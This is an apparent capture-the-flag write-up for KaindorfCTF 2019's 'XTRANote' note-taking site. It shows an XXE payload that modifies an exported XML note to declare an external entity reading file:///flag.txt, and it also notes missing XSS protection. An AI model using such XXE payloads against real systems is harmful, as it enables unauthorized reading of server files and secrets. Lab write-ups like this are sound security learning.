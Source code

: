 # \[2019] XTRANote

## Introduction

"XTRANote" is a challenge in KaindorfCTF 2019 that provides you with a website for managing notes. There is also the functionality to import and export the notes as `.xml` files. The description of the challenge informed me about the flag that is sorted in `/flag.txt`.

![](<.gitbook/assets/image (8).png>)

## Approach

Besides the fact that the website also lacks XSS protection, the most suspicious part it the XML-Import. I created a note and downloaded it as following file afterwards:

```xml
<?xml version="1.0"?>
<noteexport>
	<title>My First Note</title>
	<note>Hey, this is my first note!</note>
</noteexport>
```

Since it is the most easiest approach, I tried to use a XXE (External XML Entity) Injection. In order to do this, I had to modify the payload in the following way:

```xml
<?xml version="1.0"?>
<!DOCTYPE replace [<!ENTITY flag SYSTEM "file:///flag.txt"> ]>
<noteexport>
    <title>Flag</title>
    <note>&flag;</note>
</noteexport>
```

This actually worked and revealed following flag to me:

```
KDCTF{XXE_1n_XTRANote_1337_y0}
```

![](<.gitbook/assets/image (7).png>)

> c0de$t3rn, 2024
